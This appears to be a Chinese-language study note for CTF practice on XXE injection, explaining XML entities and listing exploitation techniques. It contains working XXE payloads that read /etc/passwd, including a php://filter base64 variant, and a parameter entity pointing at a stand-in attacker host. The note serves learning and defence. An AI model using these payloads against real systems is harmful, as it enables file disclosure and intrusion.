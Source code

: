 # XML外部实体注入漏洞

XML 外部实体注入（XXE）是一种发生在应用程序解析 XML 输入时的安全漏洞。当 XML 解析器配置不当，处理包含对外部实体引用的 XML 输入时，可能导致敏感信息泄露、拒绝服务、服务器端请求伪造、端口扫描等多种攻击。

![https://cdn.acunetix.com/wp-content/uploads/2017/07/11110336/image1.png](https://cdn.acunetix.com/wp-content/uploads/2017/07/11110336/image1.png)

- 读取本地文件
- 内网主机探测
- 内网主机端口扫描
带内实体注入攻击
- XML 解析后，有结果回显
- 基于错误
带外实体注入攻击

## XML语法

XML（E**x**tensible **M**arkup **L**anguage，可扩展标记语言）是一种用于表示结构化数据的标记语言。一个有效的 XML 文档通常包含以下几个基本部分：

- **XML 声明（declaration）**：可选，通常放在文档的第一行，声明版本和编码方式。
  - `<?xml version="1.0" encoding="UTF-8"?>`
- **文档类型定义（Document Type Definition，DTD）**：可选，预定义 XML 文件中的元素、属性及其关系，类似于模板。
- **根元素**：XML 文档必须**有且只有一个根元素**，所有其他元素都包含在这个根元素内。
  - 元素标签，所有的元素由起始标签和结束标签组成。起始标签格式为 `<tagname>`，结束标签格式为 `</tagname>`。标签名称区分大小写。
  - 自闭合元素，没有结束标签，使用自闭合标签，`<example />`。
  - 属性，元素具有属性，用于提供更多信息。属性在起始标签中定义，格式为 `name="value"`。

### 实体

实体（Entity）用于表示在文档中重用的信息，实体类型有：
  
- 内部实体，在文档内部定义。

```xml
<!DOCTYPE example [
    <!ENTITY greeting "Hello, World!">
]>
<example>
    <message>&greeting;</message>
</example>
```

- 外部实体
  - 从外部文件或 URL 引入。
  - 声明方式：`<!ENTITY 实体名称 SYSTEM "URI/URL">`。
  - 引用方式：`&实体名称;`。

```xml
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```

另一种引用方式

`<!DOCTYPE 根元素名称 PUBLIC "DTD标识名" "公用DTD的URI">`

- 参数实体
  - 参数实体通常用于 DTD 中，以在 DTD 结构内重用文本。在 DTD 中定义，只能在 DTD 中引用。
  - 声明方式：`<!ENTITY % 实体名称 "实体的值">`
  - 引用方式：`%实体名称;`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY % myparameterentity "my parameter entity value" >
<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
%myparameterentity;%xxe; ]>
```

> 通常在Blind XXE中使用

## XXE漏洞利用

### 读文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

例题：BUU XXE COURSE 1

### 内网主机探测

[NCTF2019]True XML cookbook

### 绕过方法

- 修改编码

<!--
TODO:
docx文档的XXE，https://xz.aliyun.com/t/11203

-->

## blind XXE

### out-of-band

### Error-based XXE

<!-- 在 libxml 2.9.0 版本之后，默认禁用了外部实体解析，这在很大程度上缓解了 XXE 漏洞。 -->
<!-- https://github.com/peri0d/BUUOJwp/blob/main/xxe/bsidescf-2019-svgmagic.md -->
## 参考资料

- <https://tttang.com/archive/1716/>
- <https://swarm.ptsecurity.com/impossible-xxe-in-php/>
